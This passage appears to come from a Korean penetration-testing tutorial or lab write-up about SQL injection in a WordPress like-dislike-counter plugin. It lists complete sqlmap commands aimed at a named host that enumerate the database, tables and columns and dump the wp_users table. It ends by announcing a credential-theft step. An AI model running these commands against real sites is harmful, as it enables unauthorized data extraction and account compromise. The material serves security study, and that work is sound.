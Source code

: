 <p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183016186-06dd67fd-4de9-4e0c-b78f-c923780961c2.png" width = 320>
</p>

이렇게 데이터베이스의 이름이 wordpress 인 것을 알 수 있다.

#### SQLMAP

이번에는 칼리에서 제공하는 `sqlmap`을 이용해서 데이터베이스의 이름과 테이블 등을 알아내본다.

`sqlmap`은 데이터베이스 구조 및 테이블, 컬럼을 추출할 수 있도록 만들어진 오픈소스 모의침투 도구로, 해당 도구를 사용하는 경우 반드시 담당자(고객사)와 협의를 통해 허가를 받은 뒤에 사용할 필요가 있다.

* 데이터베이스 이름 추출

```bash
sqlmap -u "http://dev.fngs.kr/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php" --method="post" --data="post_id=1&up_type=list" -p "post_id" -v 5 --dbms=MySQL --dbs
```
<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183017706-0211ebbc-b6c1-4d5b-afcd-0579683e1c64.png" width = 520>
</p>

* 데이터베이스 테이블 추출

```bash
sqlmap -u "http://dev.fngs.kr/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php" --method="post" --data="post_id=1&up_type=list" -p "post_id" -v 5 --dbms=MySQL --tables -D wordpress
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183018162-6178a2e8-687d-4315-8922-ad628d826c5c.png" width = 370>
</p>

* 데이터베이스 칼럼 추출

```bash
sqlmap -u "http://dev.fngs.kr/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php" --method="post" --data="post_id=1&up_type=list" -p "post_id" -v 5 --dbms=MySQL --colunms -T wp_users -D wordpress
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183018367-038b4e7f-1fbe-4445-a59d-e36f74314e28.png" width = 370>
</p>

* 유저 정보 추출

```bash
sqlmap -u "http://dev.fngs.kr/wp-content/plugins/like-dislike-counter-for-posts-pages-and-comments/ajax_counter.php" --method="post" --data="post_id=1&up_type=list" -p "post_id" -v 5 --dbms=MySQL --dump -T wp_users -D wordpress
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/183019418-501d936f-84f1-4434-9718-cdc42fab86ed.png" width = 550>
</p>

이렇게 유저에 대한 정보를 가져올 수 있었다. 하지만, 관리자의 계정을 알고 싶기에 user에 대한 메타 데이터인 `wp_usermeta`를 통해 확인해보면 **kisec**이 관리자인 것을 알 수 있다. 

패스워드는 모두 해시 함수를 통해 암호화가 되어 있다. 다음은 이러한 해시 함수 등의 자격 증명을 도용해보겠습니다.